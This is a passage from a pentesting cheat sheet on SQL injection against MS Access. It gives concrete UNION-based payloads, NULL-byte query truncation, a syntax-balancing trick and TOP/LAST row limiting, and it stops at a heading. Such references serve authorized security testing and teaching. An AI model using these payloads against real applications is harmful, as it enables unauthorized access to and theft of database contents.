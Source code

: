 # MS Access SQL Injection

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Online Playground

* [https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1)

## DB Limitations

### String Concatenation

String concatenation is possible with `& (%26)` and `+ (%2b)` characters.

```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```

### Comments

There are no comments in MS access, but apparently it's possible to remove the last of a query with a NULL char:

```sql
1' union select 1,2 from table%00
```

If this is not working you could always fix the syntax of the query:

```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```

### Stacked Queries

They aren't supported.

### LIMIT

The **`LIMIT`** operator **isn't implemented**. However, it's possible to limit SELECT query results to the **first N table rows using the `TOP` operator**. `TOP` accepts as argument an integer, representing the number of rows to be returned.

```sql
1' UNION SELECT TOP 3 attr FROM table%00
```

Just like TOP you can use **`LAST`** which will get the **rows from the end**.

## UNION Queries/Sub queries
